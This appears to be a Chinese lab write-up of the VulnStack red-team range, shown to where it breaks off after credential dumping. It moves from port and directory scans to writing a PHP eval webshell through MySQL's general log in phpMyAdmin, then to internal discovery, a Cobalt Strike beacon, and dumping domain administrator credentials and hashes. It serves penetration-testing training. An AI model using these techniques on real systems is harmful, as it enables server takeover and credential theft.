# 红日红队ATT＆CK系列靶场（一）通过记录-第一次接触域渗透和内网横向移动的完整过程

## 简介

红日靶场（VulnStack）是由红日安全团队打造的内网渗透靶场系列，模拟企业域环境，覆盖从外网打点到域控渗透的完整链路。靶场文件可通过安全社区获取。，

官方下载地址：[http://vulnstack.qiyuanxuetang.net](http://vulnstack.qiyuanxuetang.net/) 我打开这个网页，显示server500，最后从别人的网盘下载，这里就不提供了

下载得到三个压缩包进行解压，分别获得三个虚拟机文件

vulnstack-win7
vulnstack-Win2K3 Metasploitable
vulnstack-winserver08

网络拓扑图如下


## 靶场搭建

### 机器网络配置

首先根据拓扑图，我们需要了解每台机器对应的哪台设备，服务是什么，然后我们需要模拟内网和外网两个网段

外网环境就是kali 和 这个Web服务器就是这个win7机器需要均使用nat模式，同时他需要变成网关服务器去连接这个域成员win2机器和域控winserver8机器，也就是说这个Win7机器还需要一张hostonly的网卡，内网环境下这张网卡会作为这三台域内机器的共同网卡，其中域成员和域控只需要这一张网卡

同时域环境的三台机器初始ip已经设置好为固定的 192.168.52.XXX/24网段，所以新建的vmnet的子网为192.168.52.0

| 机器    | ip地址                 |
| ------- | ---------------------- |
| kali    | 外网ip10.10.10.10      |
| Win7    | 内网IP：192.168.52.143 |
| Win2003 | 内网IP：192.168.52.141 |
| Win2008 | 内网IP：192.168.52.138 |

Win7的外网ip最后主机发现再补充

### 启动环境并用统一密码hongrisec@2019登陆并修改

### 配置win7（外网服务器）

1. 首次登陆需要重启
2. 重启之后需要修改密码，这里三台机器我统一改成hongrisec@2026
3. 关闭防火墙，不然kali不能ping通

来到 控制面板\系统和安全\Windows 防火墙

左边有个打开或关闭防火墙



三个都设置为关闭

要注意的是

win7的网络适配器第一张必须是hostonly那种，2才是nat那种，不然nmap主机发现扫不到这张

### win2003，win2008 均开机后修改密码登陆进行就好了

## 信息收集

### 主机发现

```shell
sudo nmap -sn 10.10.10.0/24
```

得到win7这个机器的外网ip为 10.10.10.133

### 端口扫描

```shell
┌──(kali㉿kali)-[~/Labs/RedSun/RedSun1]
└─$ nmap -sS -sV -O -p- -sC --min-rate 5000 10.10.10.133 -oN nmapscan/portscan.txt
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-21 09:09 -0400
Nmap scan report for 10.10.10.133
Host is up (0.00079s latency).
Not shown: 65524 closed tcp ports (reset)
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.23 ((Win32) OpenSSL/1.0.2j PHP/5.4.45)
|_http-title: phpStudy \xE6\x8E\xA2\xE9\x92\x88 2014
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: GOD)
1025/tcp open  msrpc        Microsoft Windows RPC
1026/tcp open  msrpc        Microsoft Windows RPC
1027/tcp open  msrpc        Microsoft Windows RPC
1028/tcp open  msrpc        Microsoft Windows RPC
1029/tcp open  msrpc        Microsoft Windows RPC
1033/tcp open  msrpc        Microsoft Windows RPC
3306/tcp open  mysql        MySQL (unauthorized)
MAC Address: 00:0C:29:F3:C1:8B (VMware)
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 1 hop
Service Info: Host: STU1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: STU1, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:f3:c1:8b (VMware)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -2h40m04s, deviation: 4h37m07s, median: -4s
| smb2-time:
|   date: 2026-07-21T13:10:48
|_  start_date: 2026-07-21T12:45:11
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: stu1
|   NetBIOS computer name: STU1\x00
|   Domain name: god.org
|   Forest name: god.org
|   FQDN: stu1.god.org
|_  System time: 2026-07-21T21:10:48+08:00
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.61 seconds
```

#### 资产识别

| 属性           | 信息                       |
| :------------- | :------------------------- |
| **目标主机名** | STU1                       |
| **操作系统**   | Windows 7 Professional SP1 |
| **域**         | god.org                    |
| **FQDN**       | stu1.god.org               |
| **工作组/域**  | GOD (域环境)               |

#### 端口分析

| 端口                | 状态 | 服务         | 版本                               | 作用            | 潜在利用点                                                          |
| :------------------ | :--- | :----------- | :--------------------------------- | :-------------- | :------------------------------------------------------------------ |
| **80**              | open | http         | Apache 2.4.23 (Win32) + PHP 5.4.45 | Web服务         | phpStudy探针2014，可能存在Web漏洞（phpMyAdmin、弱口令、文件上传等） |
| **135**             | open | msrpc        | Microsoft Windows RPC              | 远程过程调用    | 通常配合445/139利用                                                 |
| **139**             | open | netbios-ssn  | Microsoft Windows netbios-ssn      | NetBIOS会话服务 | SMB相关                                                             |
| **445**             | open | microsoft-ds | Windows 7 SP1                      | SMB文件共享     | **重点关注：Win7 SP1存在永恒之蓝(MS17-010)等SMB漏洞**               |
| **1025-1029, 1033** | open | msrpc        | Microsoft Windows RPC              | 动态RPC端口     | 辅助端口                                                            |
| **3306**            | open | mysql        | MySQL (unauthorized)               | 数据库          | **未授权访问或弱口令**，phpStudy默认MySQL                           |

### 目录扫描

```shell
gobuster dir -u http://10.10.10.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,zip,bak,sql,old,log -t 50 --no-error -b 404 | tee dirb/gobuster.txt
```

#### 扫描结果

| 路径           | 状态 | 说明                                  |
| :------------- | :--- | :------------------------------------ |
| `/phpMyAdmin/` | 存在 | phpMyAdmin 管理后台（注意大小写敏感） |
| `/phpmyadmin/` | 存在 | phpMyAdmin 小写路径（同上）           |
| `/phpinfo.php` | 存在 | PHP 信息泄露页面                      |

#### 参数说明

| 参数                                                              | 作用                      |
| :---------------------------------------------------------------- | :------------------------ |
| `dir`                                                             | 目录扫描模式              |
| `-u http://10.10.10.133`                                          | 目标URL                   |
| `-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` | 字典文件路径              |
| `-x php,txt,html,zip,bak,sql,old,log`                             | 指定要扫描的文件扩展名    |
| `-t 50`                                                           | 50个并发线程，提升速度    |
| `--no-error`                                                      | 隐藏连接错误信息          |
| `-b 404`                                                          | 过滤掉404状态码的响应     |
| `\| tee dirb/gobuster.txt`                                        | 终端实时显示 + 保存到文件 |

### Web漏洞发现

接下来，我们需要对80端口访问以及爆出的路径

#### 访问 80 端口

可以看到这是一个phpstudy探针是 phpStudy 集成环境自带的一个检测页面（l.php 或 index.php），用来展示服务器环境配置信息，方便开发者调试。





| 信息项                   | 内容                    | 攻击价值                             |
| :----------------------- | :---------------------- | :----------------------------------- |
| **绝对路径**             | `C:/phpStudy/WWW`       | 知道Web根目录，后续写Shell时知道路径 |
| **探针路径**             | `C:/phpStudy/WWW/l.php` | 确认探针文件名                       |
| **PHP版本**              | 5.4.45                  | 老旧版本，可能存在已知漏洞           |
| **安全模式 (safe_mode)** | 关闭                    | 无安全限制，更容易利用               |
| **display_errors**       | 开启                    | 会暴露错误信息，辅助调试             |
| **allow_url_fopen**      | 开启                    | 支持远程文件包含(RFI)                |
| **allow_url_include**    | 未显示但通常伴随 fopen  | 可能支持远程文件包含                 |
| **upload_max_filesize**  | 2M                      | 文件上传大小限制                     |
| **MySQL连接检测**        | 页面自带表单            | 可直接测试MySQL连接                  |
| **函数检测**             | 页面自带表单            | 可检测任意PHP函数是否存在            |

很多内容总的来说，接下来我们可以测试如下内容

##### 1. MySQL连接检测 → 弱口令爆破

phpstudy 默认mysql账户密码都是root，输入进去也是显示连接到MySql数据库正常

##### 2. 函数检测 → 信息收集

80端口有对支持输入的函数的查看，不必在这浪费时间，同时，以及确认了mysql的账户密码，对80端口的操作可以先暂停

#### phpmyadmin页查看



phpMyAdmin 是一个基于 Web 的 MySQL 数据库管理工具，通过浏览器就能操作数据库（建表、查数据、执行 SQL 等）

渗透测试中它是常见的 Getshell 入口



##### 尝试在Mysql 执行框写入webshell

在这里输入

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

检查 MySQL 是否允许写入文件、能写到哪些目录

| secure_file_priv 值                      | 含义               |
| :--------------------------------------- | :----------------- |
| **NULL**                                 | 禁止写入任何文件   |
| 空字符串 `''`                            | 可以写入任意目录   |
| 具体路径                                 | 只能写入该指定目录 |
| 这里是最坏的结果，不能在这里写入webshell |

##### 尝试日志写入获得shell

在执行框依次输入

```sql
SET GLOBAL general_log = 'ON';
SET GLOBAL general_log_file = 'C:/phpStudy/WWW/log.php';
SELECT '<?php @eval($_POST[cmd]);?>';
```

作用如下：

开启 MySQL 的 **通用查询日志**，记录所有执行的 SQL 语句
将日志文件路径设置为 Web 根目录下的 log.php
执行一条包含 PHP 一句话木马 的 SQL，这条语句会被记录到日志文件中

连接成功



可在log.php查看我们已经的木马写入成功了

## 内网信息收集以及权限确认

在蚁剑的终端分别执行以下命令

```text
whoami
ipconfig /all
```

C:\phpStudy\WWW> whoami
god\administrator

进一步分析得到

| 项目         | 结果                | 分析                                  |
| :----------- | :------------------ | :------------------------------------ |
| **当前用户** | `god\administrator` | 域管理员权限 直接就是高权限，无需提权 |
| **主机名**   | stu1                | 确认                                  |
| **域名**     | god.org             | 确认                                  |
| **外网IP**   | 10.10.10.133        | 我们攻击的入口                        |
| **内网IP**   | 192.168.52.143      | 内网网段发现！                        |
| **内网DNS**  | 192.168.52.138      | 可能是域控或另一台内网机器            |
| **内网网关** | 192.168.52.2        | 内网路由                              |

## 内网主机发现

```text
C:\phpStudy\WWW> arp -a
接口: 192.168.52.143 --- 0xb
  Internet 地址         物理地址              类型
  192.168.52.138        00-0c-29-e9-b5-8b     动态        
  192.168.52.141        00-0c-29-00-fe-e2     动态        
  192.168.52.254        00-50-56-fc-45-e6     动态        
  192.168.52.255        ff-ff-ff-ff-ff-ff     静态        
  224.0.0.22            01-00-5e-00-00-16     静态        
  224.0.0.252           01-00-5e-00-00-fc     静态        
接口: 169.254.129.186 --- 0x18
  Internet 地址         物理地址              类型
  169.254.255.255       ff-ff-ff-ff-ff-ff     静态        
  224.0.0.22            01-00-5e-00-00-16     静态        
  224.0.0.252           01-00-5e-00-00-fc     静态        
  255.255.255.255       ff-ff-ff-ff-ff-ff     静态        
接口: 10.10.10.133 --- 0x1a
  Internet 地址         物理地址              类型
  10.10.10.1            00-50-56-c0-00-08     动态        
  10.10.10.2            00-50-56-f0-e1-42     动态        
  10.10.10.10           00-0c-29-28-62-c4     动态        
  10.10.10.254          00-50-56-fa-87-c5     动态        
  10.10.10.255          ff-ff-ff-ff-ff-ff     静态        
  224.0.0.22            01-00-5e-00-00-16     静态        
  224.0.0.252           01-00-5e-00-00-fc     静态        
  255.255.255.255       ff-ff-ff-ff-ff-ff     静态
```

| IP 地址          | MAC 地址            | 类型 | 分析          |
| :--------------- | :------------------ | :--- | :------------ |
| `192.168.52.138` | `00-0c-29-e9-b5-8b` | 动态 | 内网域机器    |
| `192.168.52.141` | `00-0c-29-00-fe-e2` | 动态 | 网域机器      |
| `192.168.52.254` | `00-50-56-fc-45-e6` | 动态 | 虚拟网关/DHCP |
| `10.10.10.10`    | `00-0c-29-28-62-c4` | 动态 | Kali 攻击机   |

## 确认域环境

```text
C:\phpStudy\WWW> ping -a -n 1 192.168.52.138
正在 Ping owa [192.168.52.138] 具有 32 字节的数据:
来自 192.168.52.138 的回复: 字节=32 时间=3ms TTL=128
192.168.52.138 的 Ping 统计信息:
    数据包: 已发送 = 1，已接收 = 1，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 3ms，最长 = 3ms，平均 = 3ms
C:\phpStudy\WWW> ping -a -n 1 192.168.52.141
正在 Ping ROOT-TVI862UBEH [192.168.52.141] 具有 32 字节的数据:
来自 192.168.52.141 的回复: 字节=32 时间<1ms TTL=128
192.168.52.141 的 Ping 统计信息:
    数据包: 已发送 = 1，已接收 = 1，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
```

-a 参数会尝试将 IP 解析为主机名

| IP 地址          | 主机名          | 分析                                        |
| :--------------- | :-------------- | :------------------------------------------ |
| `192.168.52.138` | OWA             | Exchange 相关主机名，通常是域控或邮件服务器 |
| `192.168.52.141` | ROOT-TVI862UBEH | 随机生成的主机名，通常是域成员工作站        |

## 域控身份确认

```text
C:\phpStudy\WWW> net group "domain controllers" /domain
这项请求将在域 god.org 的域控制器处理。
组名     Domain Controllers
注释     域中所有域控制器
成员
----------------------------------------------------------------
OWA$                     
命令成功完成
```

## 内网拓扑确认

| IP               | 主机名          | 角色                     |
| :--------------- | :-------------- | :----------------------- |
| `192.168.52.138` | **OWA**         | 域控 (Domain Controller) |
| `192.168.52.141` | ROOT-TVI862UBEH | 域成员                   |
| `192.168.52.143` | STU1 (当前机器) | 域成员 + Web服务器       |

## 确认域控是否开放445端口

```text
C:\phpStudy\WWW> powershell -c "$c=New-Object System.Net.Sockets.TcpClient;$c.Connect('192.168.52.138',445);if($c.Connected){Write-Host '445 OPEN' -ForegroundColor Green}else{Write-Host '445 CLOSED' -ForegroundColor Red}"

445 OPEN
```

| 参数                                                 | 作用                            |
| :--------------------------------------------------- | :------------------------------ |
| `powershell -c`                                      | 执行 PowerShell 命令            |
| `"..."`                                              | 命令字符串                      |
| `$c=New-Object System.Net.Sockets.TcpClient`         | 创建 TCP 客户端对象             |
| `$c.Connect('192.168.52.138',445)`                   | 尝试连接目标 IP 的 445 端口     |
| `if($c.Connected)`                                   | 判断连接是否成功                |
| `Write-Host '445 OPEN' -ForegroundColor Green`       | 连接成功 → 显示绿色"445 OPEN"   |
| `else{Write-Host '445 CLOSED' -ForegroundColor Red}` | 连接失败 → 显示红色"445 CLOSED" |

## 尝试横向移动到域控

先确认当前机器是否有 PsExec

```text
dir C:\phpStudy\WWW\psexec.exe
```

十分遗憾，确认445端口打开，但是没有远程工具

现在有两种选择

1. 利用msf快速上线
2. 利用cs生成payload

cs在域渗透这方面更强大，先演示cobalt strike 这里是4.7版本

## cs上线

### Teamserver部署（Kali）

```shell
┌──(kali㉿kali)-[~/Labs/Cobalt_Strike_4.7]
└─$ chmod +x teamserver
┌──(kali㉿kali)-[~/Labs/Cobalt_Strike_4.7]
└─$ sudo ./teamserver 10.10.10.10 123456
[sudo] kali 的密码：
[*] Team Server Version: 4.7 (20220817) Licensed
[*] Setting 'https.protocols' system property: SSLv3,SSLv2Hello,TLSv1,TLSv1.1,TLSv1.2,TLSv1.3
[*] Loading Windows error codes.
[*] Windows error codes loaded
[*] Loading beacons
[*] Loaded 0 beacons
[*] Loading properties file (/home/kali/Labs/Cobalt_Strike_4.7/TeamServer.prop).
[*] Properties file was loaded.
[+] Team server is up on 0.0.0.0:50050
[*] SHA256 hash of SSL cert is: 56a06a233bd30f693de25ef12cc19e8b2c92d3eb97dd969a2578df084c376478
```

回到客户端



这里的ip是我的kali ip



回到kali

多出来一个 [+] Listener: win7 started!

### Payload生成与执行

回到客户端选择有效荷载->选择window可执行程序->监听器选择win7，保存到了宿主机的火绒信任的文件夹内



再回到蚁剑的虚拟终端执行这个程序

```text
C:\phpStudy\WWW> artifact.exe
```

### Beacon上线确认

回到cs主界面

消息日志多了这一行

```text
07/22 01:55:45 *** initial beacon from Administrator *@169.254.129.186 (STU1)
```

## 凭据抓取与横向移动

### Mimikatz密码抓取

回到cs客户端右键STU1计算机名称这条东西选择会话交互，分别执行以下命令

```text
sleep 0
getuid
logonpasswords
```

CS常用命令

| 命令             | 作用                            |
| :--------------- | :------------------------------ |
| `sleep 0`        | 设置实时交互（无延迟）          |
| `getuid`         | 获取当前用户                    |
| `logonpasswords` | 抓取内存中的密码/Hash           |
| `hashdump`       | 抓取本地账户 Hash               |
| `shell ipconfig` | 执行系统命令（加 `shell` 前缀） |
| `shell whoami`   | 执行系统命令                    |

#### 等命令执行完毕，然后总结获取的信息

| 项目           | 值                                         |
| :------------- | :----------------------------------------- |
| **用户名**     | Administrator                              |
| **域名**       | GOD                                        |
| **明文密码**   | `hongrisec@2026`                           |
| **NTLM Hash**  | `794adae2ad271e3a7bba23288c7d4702`         |
| **LM Hash**    | `edea194d76c77d872f1c9569f45410d9`         |
| **SHA1**       | `cd32ab2e790d52e598d932991e35edc1f8a53b5b` |
| **登录服务器** | OWA（域控）                                |

#### 机器账户凭证

| 项目          | 值                                 |
| :------------ | :--------------------------------- |
| **用户名**    | STU1$                              |
| **域名**      | GOD                                |
| **NTLM Hash** | `772a1fdd43040a02235f9aeecd7b2e32` |

#### 关键总结

1. **域管理员明文密码**：`hongrisec@2026`
